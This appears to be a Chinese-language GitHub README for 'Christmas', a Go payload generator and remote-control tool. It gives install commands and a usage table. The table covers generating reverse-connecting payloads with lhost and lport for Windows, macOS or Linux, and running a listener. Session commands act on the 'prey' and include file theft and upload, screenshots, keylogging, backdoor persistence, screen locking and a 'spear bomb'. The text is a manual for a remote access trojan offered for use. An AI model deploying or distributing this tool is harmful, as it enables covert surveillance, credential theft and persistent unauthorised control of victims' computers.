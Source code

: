 <p align="center">
  <img src="https://github.com/HexChristmas/Christmas/blob/master/content/logo.png">
</p>

<h1 align="center">Christmas Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/HexChristmas/Christmas/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/HexChristmas/Christmas/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
    <a href="https://opensource.org">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>

<p align="center">
  Christmas可以生成有效负载并控制远程操作系统的Poc。
</p>

## 如何安装
```bash
$ go get github.com/HexChristmas/Christmas
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/HexChristmas/Christmas
$ go run main.go
```

## 如何使用

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成负载 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |指定猎物ip
`lport=`    |指定猎物端口
`fname=`    |指定输出文件
`--windows` |猎物系统为``` Windows```
`--macos`   |猎物系统为 ```Mac OS```
`--linux`   |猎物系统为 ```Linux```
`listen`    |从猎物的另一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持访问之插后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定猎物屏幕
`openurl`               |打开通知的```URL```
`bomb`                  |鱼叉炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话

